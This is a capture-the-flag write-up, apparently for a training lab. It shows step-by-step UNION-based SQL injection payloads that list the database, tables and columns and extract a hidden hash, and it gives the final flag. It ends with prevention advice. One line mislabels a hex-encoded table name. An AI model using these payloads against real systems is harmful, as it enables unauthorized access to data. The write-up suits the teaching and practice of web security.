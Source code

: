 ## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find the flag

1. **Identifying SQL Injection Vulnerability**:
    
    If we scroll down in the main page and we go to the search image section, there is a field to search for an image by ID. This field is directly vulnerable to SQL injection. We can use a UNION-based SQL injection to retrieve information about the web-server.
    
2. **Retrieving Database information:**
    
    In order to obtain the database currentyly in use, we can type:
    
    ```sql
    1 union select database(), user()
    ```
    
    Output:
    
    ```
    Member_images
    ```
    
3. **Retrieving Tables in a Database**:
    
    Next, we can list tables within the **Member_images** database using:
    
    ```sql
    1 union select table_name, 2 from information_schema.tables where table_schema=database()
    ```
    
    Output:
    
    ```
    list_images
    ```
    
4. **Finding Columns in the “list_images” table:**
    
    We can view columns within the "list_images" table by using:
    
    ```sql
    1 union select column_name, 2 from information_schema.columns where table_name=0x6c6973745f696d61676573
    ```
    
    Here, we converted "users" to hexadecimal (0x6c6973745f696d61676573) to bypass potential SQL injection filters.
    
5. **Extracting data:**
    
    Now that we know the columns in the "list_images" table, we see a column named "**comment**" To view its content, we use:
    
    ```sql
    1 UNION SELECT comment, 2 FROM list_images
    ```
    
    We obtain:
    
    ```
    If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
    ```
    
6. **Decrypting the Hash:**
    
    Using an MD5 decrypter, we decrypt this hash to reveal: albatroz. By converting it to lowercase and hashing it with SHA-256, we obtain the final flag.

## Prevent SQLi

There are several methods that developers can implement in order to avoid sql injection:

1. **Use prepared statements and parameterized queries:**
    
    Ensure that the user input is not directly inserted into SQL queries.
    
2. **Input validation an sanitization:**
    
    Limit user input to acceptable values, such as numbers, dates, and specific text formats.
    
    Sanitize input to remove or escape potentially dangerous characters(e.g., single quotes or semicolons).
    
3. Implement least privileges for database access:
    
    Configure the database user permissions so that they only have the minimum access necessary.
